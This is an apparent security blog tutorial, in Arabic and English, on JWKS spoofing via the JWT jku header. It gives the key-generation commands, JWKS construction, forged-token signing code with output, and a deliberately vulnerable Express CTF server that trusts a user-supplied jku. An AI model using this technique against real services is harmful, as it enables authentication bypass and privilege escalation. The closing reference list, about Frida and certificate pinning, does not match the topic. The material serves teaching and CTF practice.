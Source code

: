 ```yaml
---
title: JSON Web Key Sets Spoofing (JWKS Spoofing)
author: Mesh3l_911
date: 2022-03-13 18:32:00 -0500
categories: [Blogging, Tutorial]
tags: [JWKS, JWT]
---
```



<p class="aligncenter">
    <img src="/pics/LOGO.png" alt="centered image" />
</p>

<center><b> ^_^ السلام عليكم ورحمة الله وبركاته, يالله حيهم </b></center><br> 


> <html><body><b><p style="color:#A52A2A;font-size:25px">Agenda:</p></b></body></html>

<ul><li><b>What's JWK & JWKS?</b></li></ul>
<ul><li><b>jku Header</b></li></ul>
<ul><li><b>JWKS Spoofing Attack (Blackbox Approach)</b></li></ul>
<ul><li><b>Challenge (Whitebox Approach)</b></li></ul>

> <html><body><b><p style="color:#A52A2A;font-size:25px">What's JWKS?:</p></b></body></html>

`JSON Web Key`: is A JSON object that represents a cryptographic key. The members of the object represent properties of the key, including its value. According to Auth0.<br>

JSON Object وبعض المعلومات عنه على شكل Public Keyبكل إختصار هو قيمة الـ 
وراح نشوف قدام بإذن الله كيف ممكن نسويه.

![](../../posts_pics/JWK.png)

`JSON Web Key Set (JWKS)` is a set of keys containing the public keys used to verify any JSON Web Token (JWT) issued by the authorization server and signed using the RS256 signing algorithm. According to Auth0.<br>

Array أو أكثر محطوطين بـ JSON Web Key (JWK) عبارة عن JWKS الـ 

![](../../posts_pics/JWKS.png)

> <html><body><b><p style="color:#A52A2A;font-size:25px">jku Header:</p></b></body></html>

`jku` is a JSON Web Key (JWK) Set URL. A URI pointing to a set of JSON-encoded public keys
used to sign verify JWT.

JWT لهذا الـ Verify  الله لايهينك سو Backend Server بإختصار سلمكم الله هذا يقول يا 

اللي بهالرابط JWKS الموجود بالـ JWK عن طريق الـ
![](../../posts_pics/jku.png)

 Backend Server مثل مانشوف فالصورة الـ 
 
من JWKراح ياخذ الـ Verify عشان يسوي 

http://localhost:3000/.well-known/jwks.json

> <html><body><b><p style="color:#A52A2A;font-size:25px">JWKS Spoofing Attack (Blackbox Approach):</p></b></body></html>

.جاء وقت إننا نعرف كيف ممكن نستغل هالشي JWK, JWKS, jku Header طيب بعد ماعرفنا إيش  الـ 
  
  الغلط الكبير اللي ممكن يوقع فيه المبرمج في مثل هالحالة
  
 User Input عن طريق الـ jku هو إنه ياخذ قيمة الـ  
 

فهنا مالنا غير التجربة  Blackbox approach طبعا بما أننا قررنا نبدأ

jkuلأننا ماندري المبرمج كيف قاعد ياخذ قيمة الـ 

### Exploitation:
- بالفورمات المناسب Private/Public keys أول خطوة نروح للسيرفر الخاص فينا ونسوي 

```ssh-keygen -t rsa -b 4096 -m PEM -f id_rsa```

```openssl rsa -in id_rsa -pubout -outform PEM -out id_rsa.pub```

- وراح أشرح طريقتين لعمل هالشي JWKS بعدين الـ JWK الخطوة الثانية نسوي الـ 
: rsa-pem-to-jwk library الطريقة الأولى بإستخدام

```python
const fs = require('fs')
const jwk = require('rsa-pem-to-jwk')

  

const privateKey = fs.readFileSync(__dirname +'/keys/id_rsa'); //Private_Key Path
const jwk = jwk(privateKey, {use: 'sig'}, 'public')
console.log(jwk)
```

الناتج راح يكون زي ماشفنا في بداية اﻵرتكل

بعدها كل اللي علينا ناخذ الناتج هذا 


```python
{
  kty: 'RSA',
  use: 'sig',
  n: 'ANWBd-KOJMNL271ZAMESW12HVTiObbRfEF8sFL355nWAzhNsYH4Goh-d1_q07ih86-pjS7fmxxAtGbkk89cMbJR0-fxsHUEKVjC6aMIyOFR16nJbD-tO9_LWnpaZQsSA1khr9vuO4hyzy6-CmkkF3k6kDlvklMlVcVtQRGS6c61jeiKOy2M6DRcOYj42eXjVKoKeqB4NLS0vyyS2VkrlO3qk0D0BdqfW6HuLK_H4hF_ajIJWZzhfPphYAmfhO1wKLGIYwKqhbluMHd8-sMbk1rCwnmvhdYlz87t78WlSxIRRmHPegZa4V4H7yI9DcFtXcC1QZ1ny9LWskCNOursjIXqWGB-QSE_yqgWWOae2Kc8gte4pylEnu7Nc840l__0tt0bxrbiRApFcsYhPz5Z6xJAErk9Yil2Y62eciWSuivvEs00nHDVzof-DM_WaifKDEgsu_iPst6D-QHHlAkpqwCOchC8sGeI71YJryCtK6bZ0kko-iHoX3INxt2Kkf3uljuPZwopXKymGcKnVyBOLKz5J2osec0ezbxbVO6zHd6q-ejDbz5DKAVUMh9Q1l_5Yme3vCCeGr',
  e: 'AQAB'
}
```

Keys Array ونحطه بـ
```python

{
"keys": [
	{

"kty": "RSA",
"use": "sig",
"n": "ANWBd-KOJMNL271ZAMESW12HVTiObbRfEF8sFL355nWAzhNsYH4Goh-d1_q07ih86-pjS7fmxxAtGbkk89cMbJR0-fxsHUEKVjC6aMIyOFR16nJbD-tO9_LWnpaZQsSA1khr9vuO4hyzy6-CmkkF3k6kDlvklMlVcVtQRGS6c61jeiKOy2M6DRcOYj42eXjVKoKeqB4NLS0vyyS2VkrlO3qk0D0BdqfW6HuLK_H4hF_ajIJWZzhfPphYAmfhO1wKLGIYwKqhbluMHd8-sMbk1rCwnmvhdYlz87t78WlSxIRRmHPegZa4V4H7yI9DcFtXcC1QZ1ny9LWskCNOursjIXqWGB-QSE_yqgWWOae2Kc8gte4pylEnu7Nc840l__0tt0bxrbiRApFcsYhPz5Z6xJAErk9Yil2Y62eciWSuivvEs00nHDVzof-DM_WaifKDEgsu_iPst6D-QHHlAkpqwCOchC8sGeI71YJryCtK6bZ0kko-iHoX3INxt2Kkf3uljuPZwopXKymGcKnVyBOLKz5J2osec0ezbxbVO6zHd6q-ejDbz5DKAVUMh9Q1l_5Yme3vCCeGr",
"e": "AQAB"

	}
	]
}
```
jwks.json ونحفظه بملف 

.well-known بمجلد 

as convention only طبعا المسميات هذي كلها 

 جاهز ومرفوع على سيرفرنا الخاصJWKS وبكذا صار عندنا الـ

http://localhost:3000/.well-known/jwks.json

الطريقة الثانية أسهل, عن طريق موقع
 
 https://russelldavies.github.io/jwk-creator/ 

- JWT الخطوة الثالثة فالاتاك نسوي الـ 

```python
const fs = require('fs');
const JWT = require('jsonwebtoken');

  

const privateKey = fs.readFileSync(__dirname +'/keys/id_rsa');
const token = JWT.sign({username: 'Mesh3l_911'}, privateKey, {expiresIn: '10min', algorithm: 'RS256', header: {"jku": "http://localhost:3000/.well-known/jwks.json"}});
console.log(token);
```

 jku الخاص فينا في مكان الـ JWKS لاحظوا حطينا رابط ملف الـ

النتيجة النهائية :
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImprdSI6Imh0dHA6Ly9sb2NhbGhvc3Q6MzAwMC8ud2VsbC1rbm93bi9qd2tzLmpzb24ifQ.eyJ1c2VybmFtZSI6Ik1lc2gzbF85MTEiLCJpYXQiOjE2NDc2NTEyMDAsImV4cCI6MTY0NzY1MTgwMH0.VxnCgA6njojVDsOnLI-Oi8dgifUyqdIHBBBr5J9meB0TAIkBZhA6_1DSKtT62DLZ7U5aqfD_wAUiTyIBUHZrHFkuduuw6lM_nK95tsoFhkYAv4NmHijEXZUhvKAxDBlQDYLl1bcgyA_9LTK3NWf5ZW_X8yT2e5eZVM628hdGbp2y_MkQb7Nc5BV6fqh4CUUwiKL84vQ8V8FyPcLmx2SpLSu8qJORoDsELVA0eEKLMy1q0kAqP_fjN0qbc6fRGl5M1PmrVqHhpPwG6oHY1wMBekk3rQWfpLfQc4MLukxbtM529tDxF8spq7o_c1vUb40bdOtzTNg_kvqr6zIGfxUNGPLAh01FxvWItjaqfPfVQ6SrFB91iAP5mTDy3wV25-PQatOIykcXEm7jtDjZgQtKW4Lh2aTkWRiX3y7mdjOD-p-tBbqeGLuArS8mLa-SwN0JAcmrj4sbMg5XPaYzWEwZa8p5MOS-K8ay5zoeQ-mb10yqDpBGUV618yBLfjvFrNCFdl99166UIFvxLn8UmzPdJ1X1giabvK1vFQ3TYEwuX7ULYjQR98dIAchLSIl3xciEt52vekm-hQaCZAj5AW81SVUj9EaAJiUjE_DD0W_4vYX4LTEdaDkB5VdbIjIgu3-10V1UkvKhlO8HGw08X_yZCwHT9pl0lkmFenDUGmaygdA
```

jku header وبكذا إذا كان المبرمج غلطان وجالس ياخذ القيمة عن طريق الـ 

JWK هنا راح ياخذ الرابط الخاص فينا اللي موجود فيه الـ 

خاصة فينا Public/Private Keys اللي سويناه بإستخدام 

Backend Server فالنتيجة هي إنه الـ

عن طريق الكيز الخاصة فينا JWT للـ Verify بيصير يسوي 

  لأنه أصلا السيرفر قاعد يتحقق عن طريق الكيز اللي سويناهاSigned ويكون JWT ويصير خلاص نقدر نعدل على الـ

على حسب السيناريو اللي عندك, على سبيل المثال JWT وبكذا خلاص تعدل الـ 

role=admin

> <html><body><b><p style="color:#A52A2A;font-size:25px">Challenge (Whitebox Approach):</p></b></body></html>

بعد مافهمنا الآتاك الحين خلونا نشوف التحدي اللي سويته ونفهم كل شي عن طريق مراجعة الكود:

```python

const express = require('express');
const app = express();
const JWT = require('jsonwebtoken');
const jwt = require('express-jwt');
const jwksClient = require('jwks-rsa');

app.use((req, res, next) => {
    if(!req.headers.authorization){next()}
    const decodedToken = JWT.decode(req.headers.authorization.split(' ')[1]);
    req.jku = decodedToken.jku
    if(decodedToken.username === "Mesh3l_911"){
        next()
    }else{
        res.send("You r not Mesh3l_911");
    }
  })

app.use((req, res, next) => jwt({
    secret: jwksClient.expressJwtSecret({
        jwksUri: req.jku
    }),
    algorithms: ['RS256'],
}).unless({path: ['/']})(req, res, next))

app.get('/', (req, res) => {
    res.send('Welcome 2 my little chall, start from ( /source.zip ) & Enjoy ur time ^_^');
})

app.post('/flag', (req, res) => {
    res.send("Great j0b ^_^, The Flag is: Mesh3l_911{Jwks_Sp00fing}");
})

app.listen(80, () => console.log('Listening on port 80'));


```

> <html><body><b><p style="color:#A52A2A;font-size:25px">References:</p></b></body></html>

-   https://frida.re/docs/home/
-   https://frida.re/docs/frida-ps/
-   https://github.com/sensepost/objection
-   https://github.com/tsug0d/AndroidMobilePentest101
-   https://blog.securityevaluators.com/bypassing-okhttp3-certificate-pinning-c68a872ca9c8
-   https://github.com/BullyBoo/Encryption
